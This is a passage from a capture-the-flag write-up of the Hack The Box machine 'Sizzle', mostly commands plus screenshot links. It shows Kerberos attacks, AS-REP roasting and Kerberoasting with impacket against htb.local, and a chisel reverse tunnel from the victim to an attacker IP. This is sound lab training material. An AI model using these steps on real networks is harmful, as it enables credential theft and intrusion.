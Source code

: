 ```bash
lsof -i:88

impacket-GetNPUsers htb.local/ -no-pass -usersfile users
impacket-GetNPUsers htb.local/ -no-pass -usersfile users -dc-ip 127.0.0.1

impacket-GetUserSPNs --help
impacket-GetUserSPNs htb.local/amanda:A...2 -request -dc-ip 127.0.0.1
# Connection refused :(
```

> **Victime Machine**:

```cmd
.\chisel.exe client 10.10.14.2:1234 R:88:127.0.0.1:88 R:389:127.0.0.1:389
```

> **Attacker Machine**:

```bash
lsof -i:389

impacket-GetUserSPNs htb.local/amanda:A...2 -request -dc-ip 127.0.0.1
# :)
rdate -n 10.10.10.103
impacket-GetUserSPNs htb.local/amanda:A...2 -request -dc-ip 127.0.0.1
# :)

docker rm $(docker ps -a -q) --force
docker rmi $(docker images -q)
docker volume rm $(docker volume ls -q)
docker network rm $(docker network ls -q)
```

<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_105.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_106.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_107.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_108.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_109.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_110.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_111.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_112.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
